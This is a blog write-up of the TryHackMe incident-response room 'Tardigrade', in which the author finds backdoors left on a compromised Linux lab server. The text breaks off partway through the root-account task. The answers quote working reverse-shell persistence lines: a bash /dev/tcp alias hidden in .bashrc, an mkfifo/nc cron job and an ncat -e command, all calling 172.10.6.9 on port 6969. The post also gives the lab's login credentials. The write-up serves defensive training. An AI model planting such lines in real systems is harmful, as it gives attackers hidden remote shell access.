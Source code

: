 ```yaml
---
date: 2024-03-30 09:54:18
layout: post
title: TryHackMe - Tardigrade - Write-Up
subtitle: Can you find all the basic persistence mechanisms in this Linux endpoint?
description: A write-up and walkthrough of the TryHackMe room Tardigrade
image: /assets/img/uploads/pexels-tima-miroshnichenko-5380594-resized.jpg
optimized_image: /assets/img/uploads/pexels-tima-miroshnichenko-5380594.jpg
category: "{{slug}}"
tags:
  - tryhackme
  - tardigrade
  - write-up
author: Michael
paginate: false
---
```

The TryHackMe room Tardigrade can be found [here](https://tryhackme.com/r/room/tardigrade).

> A server has been compromised, and the security team has decided to isolate the machine until it's been thoroughly cleaned up. Initial checks by the Incident Response team revealed that there are five different backdoors. It's your job to find and remediate them before giving the signal to bring the server back to production.

Today we'll be looking at the TryHackMe room Tardigrade and trying discover all the modes of persistence left by a malicious actor.  Let's get started!

### Task 1: Connect to the machine via SSH

To begin, we'll connect to the compromised server.  We've been given the following credentials to gain access:

> user: giorgio
>
> password: armani

We've also been told that the **giorgio** account has **root access** to the server -- nice! Though perhaps also nice for our malicious friend...

##### What is the server's OS version?

Our first question asks us to find the verify the version of operating system installed on the server.

An easy way to access that information on Linux is with the command `lsb_release -a`:

![lsb_release -a output](/assets/img/uploads/lsb_release-a.png "output of lsb_release -a")

This will give us the distribution-specific information we're looking for.  We can simplify our search further by running `lsb_release -d` instead, which will give us just the "Description" section, which contains our answer:

![lsb_release -d output](/assets/img/uploads/lsb_release-d.png "output of lsb_release -d")

**Answer:** Ubuntu 20.04.4 LTS  

### Task 2: Investigating the giorgio account

> Since we're in the giorgio account already, we might as well have a look around.

##### What's the most interesting file you found in giorgio's home directory?

Something's weird in giorgio's home directory.  When we run `ls -la` to take a look, we find a "bad" file:

![.bad_bash](/assets/img/uploads/bad_bash.png ".bad_bash")

A name that on the nose can't be anything healthy.  Best not to run it.

**Answer:** .bad_bash

> In every investigation, it's important to keep a dirty wordlist to keep track of all your findings, no matter how small. It's also a way to prevent going back in circles and starting from scratch again. As such, now's a good time to create one and put the previous answer as an entry so we can go back to it later.

More on this later.

##### Another file that can be found in every user's home directory is the .bashrc file. Can you check if you can find something interesting in giorgio's .bashrc?

Running a `cat` command on .bashrc immediately shows us a concerning alias:

![.bashrc](/assets/img/uploads/bashrc.png ".bashrc")

The `ls` command has been assigned an alias that attempts to create a reverse shell to `172.10.6.9` on port `6969` before listing the directory contents.  The command even runs the process in the background and "disowns" it so the connection remains active if the shell session ends!

I'd call that interesting.

**Answer:** alias ls='(bash -i >& /dev/tcp/172.10.6.9/6969 0>&1 & disown) 2>/dev/null; ls --color=auto'

> It seems we've covered the usual bases in giorgio's home directory, so it's time to check the scheduled tasks that he owns.

##### Did you find anything interesting about scheduled tasks?

To see the scheduled tasks on a Linux system, we can run `crontab -l`:

![crontab -l](/assets/img/uploads/crontab-l.png "crontab -l")

We see one job scheduled, and it's attempting to create a reverse shell to the same address and port as before.

**Answer:** /usr/bin/rm /tmp/f;/usr/bin/mkfifo /tmp/f;/usr/bin/cat /tmp/f|/bin/sh -i 2>&1|/usr/bin/nc 172.10.6.9 6969 >/tmp/f

### Task 3: Dirty Wordlist Revisited

> A dirty wordlist is essentially raw documentation of the investigation from the investigator's perspective. It may contain everything that would help lead the investigation forward, from actual IOCs to random notes. Keeping a dirty wordlist assures the investigator that a specific IOC has already been recorded, helping keep the investigation on track and preventing getting stuck in a closed loop of used leads. 

This part of the room doesn't have us investigate anything, but instead goes into more detail about the idea of a dirty wordlist to help during investigations.  We're provided a flag in the instructions.

### Task 4: Investigating the root account

> Normal user accounts aren't the only place to leave persistence mechanisms. As such, we will then go ahead and investigate the root account. 

##### A few moments after logging on to the root account, you find an error message in your terminal.  What does it say?

As mentioned, giorgio has root access to the server, so we escalate our privileges with `sudo -s` and receive an odd message:

![Ncat: TIMEOUT.](/assets/img/uploads/sudo-s.png)

**Answer:** Ncat: TIMEOUT.

##### After moving forward with the error message, a suspicious command appears in the terminal as part of the error message.  What command was displayed?

We press enter to continue and are provided another unexpected result:

![](/assets/img/uploads/sudo-s-2.png)

How did that happen? I didn't even do anything -- I just logged as root, and it happened.

**Answer**: ncat -e /bin/bash 172.10.6.9 6969

> You might wonder, "how did that happen? I didn't even do anything? I just logged as root, and it happened."

...yes, quite.

##### Can you find out how the suspicious command has been implemented?

To figure out this situation, we revisit our friend .bashrc, but for the root account this time

![](/assets/img/uploads/bashrc-root.png)

and we find our culprit: yet another reverse shell.  Our malicious friend sure is persistent.

**Answer:**